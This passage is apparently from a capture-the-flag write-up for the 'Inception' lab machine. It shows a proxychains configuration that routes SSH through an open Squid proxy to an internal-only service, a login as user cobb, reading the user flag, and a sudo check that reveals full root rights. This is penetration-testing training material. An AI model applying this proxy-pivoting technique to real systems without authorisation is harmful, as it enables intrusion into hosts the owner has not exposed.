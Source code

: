 ![Finding SSH service on the internal IP](./Images/ssh.png)

However, we know that the Squid proxy is open on port 3128. This means that we can make use of the Squid proxy to access the service on the internal IP address of this machine. 

To do so, we will have to first modify the /etc/proxychains4.conf file on our local machine to add the Squid proxy.

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
http 10.10.10.67 3128
```

Using proxychains, we are then able to gain SSH access as cobb user

```
┌──(kali㉿kali)-[/etc]
└─$ proxychains ssh cobb@127.0.0.1                                                                 2 ⚙
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  10.10.10.67:3128  ...  127.0.0.1:22  ...  OK
cobb@127.0.0.1's password: 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Nov 30 20:06:16 2017 from 127.0.0.1
cobb@Inception:~$ 
```
### Obtaining user flag

```
cobb@Inception:~$ cat user.txt
<Redacted user flag>
```

### Privilege Escalation to root
Using the ```sudo -l``` command, we realize that we can execute any commands with root privileges.

```
cobb@Inception:/tmp$ sudo -l
[sudo] password for cobb: 
Matching Defaults entries for cobb on Inception:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cobb may run the following commands on Inception:
    (ALL : ALL) ALL
```

